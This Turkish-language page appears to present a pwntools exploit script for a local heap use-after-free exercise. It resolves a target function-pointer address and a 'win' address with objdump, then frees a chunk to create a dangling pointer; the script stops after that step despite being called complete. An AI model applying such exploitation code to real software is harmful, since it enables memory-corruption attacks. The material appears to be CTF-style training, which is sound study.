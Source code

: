 ### Sömürü Kodunun Tam Hali (`exploit.py`)

Bu etkileşimli program için `pwntools` ile yazılmış exploit betiği aşağıdadır.

```python
from pwn import *
import re
import subprocess

# Pwntools ile süreci başlat
p = process("./compiled/vulnerable_code")

# Otomatik adres bulma (önerilen yöntem)
try:
    # objdump ile adresleri otomatik bul
    result = subprocess.run(['objdump', '-t', './compiled/vulnerable_code'], 
                          capture_output=True, text=True)
    
    target_fn_addr = None
    win_addr = None
    
    for line in result.stdout.split('\n'):
        if 'gTarget' in line and 'O' in line:
            parts = line.split()
            if len(parts) >= 1:
                target_fn_addr = int(parts[0], 16)
        elif 'win' in line and 'F' in line and '__TEXT' in line:
            parts = line.split()
            if len(parts) >= 1:
                win_addr = int(parts[0], 16)
    
    if target_fn_addr is None or win_addr is None:
        raise Exception("Otomatik adres bulma başarısız")
        
    log.info(f"Otomatik bulunan &gTarget.fn adresi: {hex(target_fn_addr)}")
    log.info(f"Otomatik bulunan win adresi: {hex(win_addr)}")
    
except Exception as e:
    log.warning(f"Otomatik bulma başarısız: {e}")
    # Manuel adres girişi
    target_fn_addr = int(input("&gTarget.fn adresini girin (örn: 0x100008090): "), 16)
    win_addr = int(input("win fonksiyonu adresini girin (örn: 0x100000580): "), 16)

def alloc():
    p.sendline(b"alloc")
    return p.recvuntil(b"> ").decode()

def free(idx):
    p.sendline(f"free {idx}".encode())
    return p.recvuntil(b"> ").decode()

def write(idx, data_hex):
    p.sendline(f"write {idx} {data_hex}".encode())
    return p.recvuntil(b"> ").decode()

def call():
    p.sendline(b"call")

log.info("Adim 1: Iki chunk ayiriliyor (A ve B)")
print(alloc()) # chunk 0 (A)
print(alloc()) # chunk 1 (B)

log.info("Adim 2: Dangling pointer olusturmak icin chunk 0 (A) serbest birakiliyor")
print(free(0))
```